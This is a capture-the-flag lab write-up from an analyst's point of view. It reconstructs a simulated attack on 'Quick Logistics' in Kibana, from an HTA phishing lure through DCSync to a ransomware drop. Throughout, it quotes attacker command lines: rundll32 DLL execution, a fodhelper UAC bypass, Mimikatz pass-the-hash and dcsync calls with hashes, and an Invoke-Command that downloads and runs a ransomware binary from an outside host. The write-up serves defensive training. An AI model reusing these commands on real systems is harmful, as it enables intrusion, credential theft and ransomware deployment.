<div align="center">

#  Boogeyman 3


</div>

## 📖 Room Overview

Boogeyman 3 is the final capstone in the Boogeyman series, and it plays out like a full incident from the SOC analyst's chair. The threat actor phishes the CEO of Quick Logistics LLC, Evan Hutchinson, with a booby-trapped PDF that is really an HTA payload. From that single foothold the attacker builds the whole kill chain: stage 1 execution, a DLL implant, a scheduled task for persistence, an encrypted C2 channel, a UAC bypass to get full admin rights, credential dumping with Mimikatz, lateral movement across the network with stolen hashes and passwords, a DCSync attack against the domain controller, and finally a ransomware drop.

The whole investigation happens in Elastic (Kibana). I worked out of the `winlogbeat-*` index and set my time window to August 29 to August 31, 2023, since the security team narrowed the incident to that period. Most of the hunting came down to writing focused KQL queries, pulling the right fields into the table, and reading process command lines to reconstruct exactly what the attacker did step by step.

The story spans three machines: the CEO's workstation (patient zero), a second workstation named `WKSTN-1327`, and the domain controller. Following the credentials as they get dumped and reused is the thread that ties the entire room together.

# 🧭 Task 1: Introduction

This first task just sets the scene and points you at the Elastic instance. There are no questions to answer here, so once the lab and the SIEM are up, the real work starts in Task 2.

# 🕵️ Task 2: The Chaos Inside

This is the entire investigation. Before running any queries I set the Kibana date picker to the incident window so I was not drowning in unrelated noise.


Almost every answer in this room comes from Windows process creation events (Sysmon Event ID 1 / Winlogbeat). The key fields are `process.pid`, `process.parent.id`, `process.command_line`, `process.name`, and `dns.resolved_ip`. The trick is to pivot: find one malicious process, grab its PID, then search for children by `process.parent.id`. That parent-to-child chain is how a single phishing click unfolds into a full compromise.

### Initial access and stage 1 execution

The victim opened an attachment that looked like `ProjectFinancialSummary_Q3.pdf` but was actually an `.hta` file. HTA (HTML Application) files run through `mshta.exe`, a trusted Microsoft binary, which is exactly why attackers abuse them. I searched for the lure by filename to find the very first execution.

```bash
# KQL in Kibana, index winlogbeat-*
*.pdf*
```

I added `process.pid` to the table and spotted `mshta.exe` running the fake PDF.

**What is the PID of the process that executed the initial stage 1 payload?**

`6392`



> Searching `*.pdf*` surfaced three hits. The interesting one is `"C:\Windows\SysWOW64\mshta.exe" "D:\ProjectFinancialSummary_Q3.pdf.hta"`, spawned by `explorer.exe`. Pulling `process.pid` into the table showed the value `6392`, which is the process that kicked off the whole chain.

With the stage 1 PID in hand, I looked for everything it spawned by pivoting on the parent id.

```bash
process.parent.id: 6392
```

**The stage 1 payload attempted to implant a file to another location. What is the full command-line value of this execution?**

`"C:\Windows\System32\xcopy.exe" /s /i /e /h D:\review.dat C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat`



> The seven child processes of PID `6392` included an `xcopy.exe` call. The attacker copied `review.dat` off the mounted ISO (drive `D:`) into the user's `Temp` folder. The `/h` flag copies hidden files, which is a small tell that they wanted this to stay quiet.

**The implanted file was eventually used and executed by the stage 1 payload. What is the full command-line value of this execution?**

`"C:\Windows\System32\rundll32.exe" D:\review.dat,DllRegisterServer`

> In the same result set, right after the copy, `rundll32.exe` executed `review.dat` and called its `DllRegisterServer` export. So `review.dat` is not data at all, it is a DLL, and `rundll32` is the living-off-the-land binary used to run it without dropping an obvious executable.

### Persistence

To survive a reboot, the attacker registered a scheduled task through PowerShell.

**The stage 1 payload established a persistence mechanism. What is the name of the scheduled task created by the malicious script?**

`Review`



> Reviewing the same child processes, one PowerShell command built a scheduled task that runs `rundll32.exe review.dat,DllRegisterServer` daily at 06:00. The final call is `Register-ScheduledTask Review`, so the task name is `Review`. The daily trigger gives them a reliable callback every morning.

### Command and control

The implanted DLL reached out to a C2 server. Digging through the process tree I found a PowerShell process carrying a big Base64 blob. Decoding it revealed a classic RC4 download cradle.



The stager Base64-encodes the C2 host string, so I decoded that piece on its own.



That gave me the domain `cdn.bananapeelparty.net` on port `80`. To turn the domain into an IP, I searched the logs for the domain and read the resolved address.

```bash
*bananapeelparty*
```

**The execution of the implanted file inside the machine has initiated a potential C2 connection. What is the IP and port used by this connection? (format: IP:port)**

`165.232.170.151:80`



> The decoded stager pointed at `cdn.bananapeelparty.net:80`. Filtering the logs on `bananapeelparty` gave a hit with `dns.resolved_ip` of `165.232.170.151`. Combined with the port from the decoded host string, the C2 endpoint is `165.232.170.151:80`.

### Privilege escalation with a UAC bypass

The attacker confirmed the account was a local admin and then bypassed User Account Control to run with full rights.

**The attacker has discovered that the current access is a local administrator. What is the name of the process used by the attacker to execute a UAC bypass?**

`fodhelper.exe`



> Right after a couple of `whoami /groups` checks, `fodhelper.exe` fired off. `fodhelper.exe` (Features On Demand Helper) is a trusted, auto-elevating Windows binary. Attackers hijack a specific registry key it reads (`HKCU\Software\Classes\ms-settings\`) so that when it auto-elevates, it launches their payload with high integrity and no UAC prompt.

### Credential access

With full privileges, the attacker pulled down Mimikatz to dump credentials. I searched for anything git-related.

```bash
*git*
```

**Having a high privilege machine access, the attacker attempted to dump the credentials inside the machine. What is the GitHub link used by the attacker to download a tool for credential dumping?**

`https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip`



> The `*git*` search returned a PowerShell `iwr` (Invoke-WebRequest) call pulling `mimikatz_trunk.zip` straight from the official gentilkiwi GitHub releases and saving it as `mimi.zip`. That release link is the answer.

Once Mimikatz ran, the attacker used a pass-the-hash to jump to another account.

**After successfully dumping the credentials inside the machine, the attacker used the credentials to gain access to another machine. What is the username and hash of the new credential pair? (format: username:hash)**

`itadmin:F84769D250EB95EB2D7D8B4A1C5613F2`



> A Mimikatz `sekurlsa::pth` command spun up a new PowerShell session as `/user:itadmin /domain:QUICKLOGISTICS` with the NTLM hash `F84769D250EB95EB2D7D8B4A1C5613F2`. That user and hash pair is what they reused to reach the next host.

### Discovery and lateral movement

Now operating as `itadmin`, the attacker went looking through file shares and found an automation script.

**Using the new credentials, the attacker attempted to enumerate accessible file shares. What is the name of the file accessed by the attacker from a remote share?**

`IT_Automation.ps1`



> A PowerShell `cat FileSystem::\\WKSTN-1327.quicklogistics.org\ITFiles\IT_Automation.ps1` shows the attacker reading a script straight off a remote share. The file accessed is `IT_Automation.ps1`, and scripts like this often hold hardcoded service or admin credentials.

That script did in fact leak a credential, which the attacker immediately used.

**After getting the contents of the remote file, the attacker used the new credentials to move laterally. What is the new set of credentials discovered by the attacker? (format: username:password)**

`QUICKLOGISTICS\allan.smith:Tr!ckyP@ssw0rd987`



> The next command built a `PSCredential` object for `QUICKLOGISTICS\allan.smith` with the plaintext password `Tr!ckyP@ssw0rd987`, then ran `Invoke-Command` against `WKSTN-1327`. The `IT_Automation.ps1` file was hiding that password in the clear.

**What is the hostname of the attacker's lab machine for its lateral movement attempt?**

`WKSTN-1327`

> The same lateral movement command targets `-ComputerName WKSTN-1327`. That hostname is the machine used for the lateral movement attempt and is the accepted answer for this question.

Because the lateral movement used WinRM, the payload on the target ran under the remoting host process.

**Using the malicious command executed by the attacker from the first machine to move laterally, what is the parent process name of the malicious command executed on the second compromised machine?**

`wsmprovhost.exe`



> Filtering on `*WKSTN-1327* and powershell.exe and event.code:1`, then adding `process.parent.name` to the table, showed the malicious PowerShell being spawned by `wsmprovhost.exe`. That process is the WinRM (PowerShell Remoting) host, which confirms the attacker moved in over WinRM rather than a local execution.

### Dumping credentials on the second machine

On `WKSTN-1327` the attacker ran Mimikatz again and pulled the local administrator hash.

**The attacker then dumped the hashes in this second machine. What is the username and hash of the newly dumped credentials? (format: username:hash)**

`administrator:00f80f2538dcb54e7adc715c0e7091ec`

> In the same `WKSTN-1327` result set, a Mimikatz `sekurlsa::pth /user:administrator /domain:quicklogistics.org` call used the NTLM hash `00f80f2538dcb54e7adc715c0e7091ec`. That is the freshly dumped administrator credential on the second machine.

### Domain dominance with DCSync

With domain admin level access, the attacker abused replication rights to pull hashes straight from the domain controller.

DCSync abuses the normal Active Directory replication protocol. Any account with the "Replicating Directory Changes" rights can ask a domain controller to hand over the password data for any user, exactly as a second DC would during replication. Mimikatz `lsadump::dcsync` does this without ever touching the DC's disk or running code on it, so it is quiet and very powerful. Once you can DCSync, you effectively own the domain.

**After gaining access to the domain controller, the attacker attempted to dump the hashes via a DCSync attack. Aside from the administrator account, what account did the attacker dump?**

`backupda`



> Searching for `*dcsync*` returned several hits. Aside from the `administrator` pull, one `lsadump::dcsync /domain:quicklogistics.org /user:backupda` call targeted the `backupda` account, most likely a backup domain admin the attacker wanted as a fallback.

### Impact: ransomware

The final move was to stage and run ransomware across the environment.

**After dumping the hashes, the attacker attempted to download another remote file to execute ransomware. What is the link used by the attacker to download the ransomware binary?**

`http://ff.sillytechninja.io/ransomboogey.exe`



> The last relevant command is an `Invoke-Command` against `WKSTN-1327.quicklogistics.org` that runs `iwr http://ff.sillytechninja.io/ransomboogey.exe -outfile C:\Users\itadmin\ransomboogey.exe` and then executes it. That URL is the ransomware download link and the end of the kill chain.

## 🧰 Tools Used

| Tool | Purpose |
|------|---------|
| Elastic / Kibana | Central SIEM for searching Winlogbeat process, DNS, and PowerShell telemetry |
| KQL | Query language used to filter events, pivot on PIDs, and isolate the attack chain |
| CyberChef | Decoding the Base64 and RC4 PowerShell stager to reveal the C2 host and port |


## 👨‍💻 Author

Sanjish K C
CompTIA Security+ | MS Cybersecurity Candidate at Webster University | Network Analysis | Nmap | Wireshark | Linux | Former Computer Science Instructor Transitioning into Cybersecurity
